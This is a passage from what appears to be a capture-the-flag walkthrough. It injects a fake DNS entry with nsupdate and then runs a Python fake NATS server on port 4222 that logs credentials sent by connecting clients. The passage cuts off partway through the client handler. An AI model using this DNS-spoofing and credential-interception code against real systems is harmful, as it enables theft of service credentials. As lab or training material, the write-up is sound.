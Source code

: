 Injected fake DNS entry:

```bash
nsupdate dnsupdate.txt
```

### 🎣 Fake `NATS` Server on Port `4222`

This is our opportunity!  
Set up a fake NATS server to capture valid user credentials:

```bash
nano fake_nats.py
```

**`fake_nats.py`**

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Title: Lightweight Fake NATS Credential Interceptor
Author: Alessandro Salucci
Date: 2025-07-25
Description: Lightweight NATS honeypot that mimics a real NATS server and logs any credentials or tokens sent via the CONNECT command.
Requirements: Python 3.x
Usage: Run the script on a host. It will listen on TCP port 4222 and handle multiple client connections concurrently.
"""

import socket
import threading
import json
from datetime import datetime

HOST = '0.0.0.0'
PORT = 4222

INFO_BANNER = {
    "server_id": "NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q",
    "version": "2.11.3",
    "proto": 1,
    "host": HOST,
    "port": PORT,
    "auth_required": True,
    "tls_required": False,
    "max_payload": 1048576,
}

def log(msg):
    print(f"[{datetime.now().strftime('%Y-%m-%d %H:%M:%S')}] {msg}")

def handle_client(conn, addr):
    log(f"🔌 Connection from {addr[0]}:{addr[1]}")
    try:
        # Send NATS-like INFO line
        info_line = f"INFO {json.dumps(INFO_BANNER)}\r\n"
        conn.send(info_line.encode())

        data = conn.recv(2048)
        if not data:
            return

        decoded = data.decode(errors='ignore').strip()
        log(f"📥 RECEIVED: {repr(decoded)}")
```
